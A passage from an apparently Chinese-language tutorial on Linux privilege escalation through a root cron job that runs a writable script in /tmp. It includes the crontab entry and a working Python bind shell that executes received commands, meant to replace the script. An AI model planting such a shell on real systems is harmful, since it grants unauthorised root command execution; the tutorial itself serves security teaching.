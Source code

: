 

### 计划任务提权

```
linux系统中有一些定时执行的任务，一般这些任务由crontab来管理，具有所属用户的权限。非root权限的用户是不可以列出root用户的计划任务的。但是/etc/内系统的计划任务可以被列出
修改/etc/crontab才能生效


如果有以root权限执行的定时任务，并且执行的脚本是可控的,就可以直接更改脚本，通过定时任务提权
例如计划任务的脚本在tmp目录下  /tmp/server.py

cat /etc/crontab
* *  * * * root /usr/bin/python3 /tmp/server.py  --tmp目录
```
![](./linux提权_image/31.png)

**这里可以通过修改计划任务文件进行提权**

**vi /tmp/server.py**

```
import socket
import os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('172.20.10.7', 12345))
s.listen(5)
while True:
	conn, addr = s.accept()
	for i in range(10):
		cmd = conn.recv(1024)
		print(cmd)
		command = cmd.decode(encoding='utf-8')
		if command.startswith("cd"):
			os.chdir(command[2:].strip())
			result = os.getcwd()
		else:
			result = os.popen(command).read()
		if result:
			conn.send(result.encode('utf-8'))
		else:
			conn.send(b'ok')
```

